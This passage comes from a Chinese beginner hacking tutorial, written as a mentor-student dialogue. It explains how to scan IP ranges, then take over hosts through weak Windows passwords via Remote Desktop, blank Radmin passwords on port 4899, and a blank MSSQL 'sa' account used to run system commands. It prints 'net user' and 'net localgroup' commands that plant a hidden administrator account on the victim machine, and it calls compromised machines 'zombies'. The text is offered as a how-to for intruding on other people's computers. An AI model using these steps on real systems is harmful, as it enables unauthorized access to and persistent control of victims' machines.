接下来设置扫描目标，我们单击左边第一个按钮“Add host”。如果选择只扫描一台电脑，那么就是在 Host 里填入对方主机名或者是 IP，如图1.20。

也可以选择一个扫描的 IP 范围，那么就单击选中第二个选项“Hosts range”，填入起始到终止的 IP 地址，最后单击右下角的“Add”将其添加到扫描列表中，单击 Next 按钮，来到如图1.21所示的界面。单击上方工具栏里的“Start scan”就开始扫描了（也可以在菜单栏里选择“Actions”/“Start scan”）。



图1.19



图1.20



图1.21

在扫描的过程中，我们可以使用上方菜单栏的“Actions”里的“Stop scan”“Suspend scan”或者是“Resume”来停止、暂停、跳过扫描进程。

扫描结束后，可以在 Audits 里看到相关漏洞的详细信息，包括如何利用、如何修补、相关链接资料等等，其详细程度绝不亚于 X-scan 哦！例如在图1.22中我们就可以知道，IP 地址为 192.168.1.3 的这台电脑上存在 MS04-045（Windows WINS 远程溢出）漏洞！



图1.22

### 1.3 最快捷的傻瓜入侵工具

阿剑剑：“唉，原来如此呀，要入侵就得先用工具找到对方存在的安全漏洞。前边讲的那几个扫描工具我已经会使用了，钱兄，现在我可以学入侵了吧？”

欠钱：“别急，别急，入侵其实说简单就简单，说难就难。我们还是从最初级的弱口令开始讲吧！早期的 Win2000 弱口令、Mssql 的 SA 弱口令使用，许多年前就已经被讲过了，而且随着现在的个人电脑基本上都使用的是 WinXP 系统，而 WinXP 在 IPC$ 方面安全性要比 Win2000 好，因此就算我们得到了 WinXP 系统的弱口令，进行 IPC$ 连接时，系统依然会认为是 guest 权限，所以对于 WinXP 系统，IPC$ 的弱口令入侵基本上已经失去什么作用了。不过，作为一种方法，我们还是以工具的形式简单地介绍一下吧，毕竟多掌握一种方法终归是好的。我们下边就来讲讲 WindowsNT/2000 自动攻击探测机的使用。”

> **小知识：什么是 ipc$**  
> IPC$（Internet Process Connection）是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。其本意是为了方便管理员的远程管理而开放的远程网络登录功能（默认开放）；IPC$ 并非真正意义上的安全漏洞。

#### 1.3.1 WinNT/2000 自动攻击探测机

我们先来介绍一下 WindowsNT/2000 自动攻击探测机的基本使用，WindowsNT/2000 自动攻击探测机运行后的界面如图1.23所示。



图1.23

首先在左下方填入 IP 范围，然后进入它右边的设置选项中。这里可以选择是否仅探测 PING 检查成功的 IP，或者仅探测开放 3389 端口的 IP，以提高扫描的速度。

接下来就是要选择需要探测的漏洞了，除了 URL bug 检测外（太老了），其它的都可以选上，如图1.24。



图1.24

切换到 Netbios 选项处，将“列出所有密码简单的管理帐号”与 SQL 漏洞中的“列出密码为空的 sa 帐号”选中，就设置完毕了，如图1.25。



图1.25

单击左侧的“开始”探测有漏洞的主机，就开始扫描了。

有的时候在探测 NT 口令时耗时过久，会使扫描进入假死状态，此时在工具最中间那一排按钮的“线程”处，选择该线程，右键将其终止，如图1.26。



图1.26

扫描结束后，在中间的那一排按钮中切换到“结果”选项卡，就可以看到详细的扫描报告了，如图1.27。



图1.27

从图中我们可以知道，192.168.1.8 这个 IP 存在有 NT 弱口令（administrator 的用户密码为 1），同时又打开了 3389 端口，那么我们可以使用“远程桌面连接器”连接上去。使用 Windows XP 系统的朋友可以依次打开“开始/所有程序/附件/通讯/远程桌面连接”，如图1.28。



图1.28

填写好 IP 地址，单击连接就可以看到登录的窗口了，输入刚才得到的用户名与密码，我们就可以成功地进入到对方的系统里，所有操作与本地完全一样！如图1.29。


图1.29

### Easy Hacker

当然并不是每次都可以扫到有 NT 弱口令的，但是我们有可能扫到图中出现的其它两种漏洞。比如 4899 空口令肉鸡或者是 SQL 漏洞里的 sa 空口令。我们分别来看看这两个漏洞如何使用吧。

4899 是远程控制软件 Radmin 的默认端口，在默认安装的情况下，该软件的密码也为空。所以我们如果扫到了打开 4899 的肉鸡，就可以使用它的专用连接器 Radmin.exe 连接进行管理了。打开 Radmin.exe 后，界面如图1.30。



图1.30

单击第一个按钮建立连接，出现如图1.31的界面，在此填入肉鸡 IP，确定就可以连接并控制远程主机了，如图1.32。



图1.31



图1.32

## 第一章

sa 是 MSSQL 的默认账户，默认安装下它没有密码，但是这个账户是具有系统权限的，所以我们可以使用它进行任何操作。

首先在 WINNT/2000 自动攻击探测机上切换到 SQL CMD 执行选项卡，在主机处填入 IP 地址，然后单击右边的“连接”按钮。当其变为灰色时就是已经成功连接上了，此时可以单击下方的“执行”按钮执行任何 CMD 命令了，如图1.33。



图1.33

我们可以给系统上增加一个用户，并且将其提升为管理员：

```text
net user 职业欠钱 123456 /add
net localgroup administrator 职业欠钱 /add
```

此命令增加一个用户名为“职业欠钱”密码为“123456”的帐号，同时将其提升为管理员。离开之前要单击“断开”按钮结束连接，否则 WINNT 自动攻击器无法关闭。

当然，这个工具还有更多更强大的功能，就留给喜欢探索的朋友们自己去发掘吧。

### 1.3.2 南域剑盟上兴常用网络入侵机

我们再来介绍一款比 WinNT/2000 自动攻击探测机丝毫不逊色的工具——南域剑盟上兴常用网络入侵机。其运行后的界面如图1.34所示，它的主要功能包括 Ping 探测主机是否在线、扫描、常用工具集合。



图1.34

## 入侵的前奏

### Easy Hacker

以局域网为例，我们在左上方设置好起始与终止 IP 地址，单击中间的 Ping 探测，就会在下方的“探测地址列表”中看到在线的 IP 了，如图 1.35。



图 1.35

找到在线主机后，我们可以选定其中某一个 IP，在“远程主机端口扫描”中选择定点扫描。也可以选择“对 IP 列表进行区域扫描”来扫描所有在线主机。当然，扫描端口我们是可以自己定义的，比如扫描从 1-4899 的所有端口（基本上常用的端口都在这里了），如图 1.36。

